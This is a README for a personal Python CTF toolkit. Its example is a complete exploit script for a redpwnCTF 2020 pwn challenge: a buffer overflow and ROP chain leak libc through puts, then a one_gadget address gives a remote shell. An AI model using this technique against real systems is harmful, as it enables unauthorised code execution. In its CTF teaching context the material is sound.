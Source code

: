 # cool - CTF toolkit for me
[![CI](https://github.com/d2verb/cool/workflows/CI/badge.svg)](https://github.com/d2verb/cool/actions)
[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/d2verb/cool/blob/master/LICENSE)

## Prerequisite

`cool` uses `gmpy2`, so you must install some dependencies for it. In Linux case, you can run following commands.

```shell
$ sudo apt-get update
$ sudo apt-get install -y libgmp-dev libmpfr-dev libmpc-dev libgmp3-dev
```

## How to install
We don't provide any convenient way to install now. You can install `cool` by downloading the artifact of GitHub Actions (named as `dist`) and using the wheel file in it.

```shell
$ unzip dist.zip
$ pip install ./dist/cool-0.1.0-py3-none-any.whl
```


## Example
This is an example solver to solve the pwn challenge (the-library) in redpwnCTF 2020.

```python
from cool.pwn import elf, remote
from cool.util import p64, u64

e = elf("./tmp/the-library")
l = elf("./tmp/libc.so.6")
p = remote("2020.redpwnc.tf", 31350)

pop_rdi = 0x00400733
one_gadget_offset = 0x10A38C

pld = b"A" * 0x18
pld += p64(pop_rdi)
pld += p64(e.got["read"])
pld += p64(e.plt["puts"])
pld += p64(e.symbols["main"])

# libc base leak
p.sendafter(b"name?\n", pld)
p.recvuntil(b"Hello there: ")
libc_base = u64(p.recv()[29 : 29 + 6] + b"\x00\x00") - l.symbols["read"]
print(f"[*] libc base: 0x{libc_base:x}")

# execute main again & send one_gadget RCE address
one_gadget = one_gadget_offset + libc_base
pld = b"A" * 0x18
pld += p64(one_gadget)

p.sendline(pld)
p.interact()
```

## License
MIT License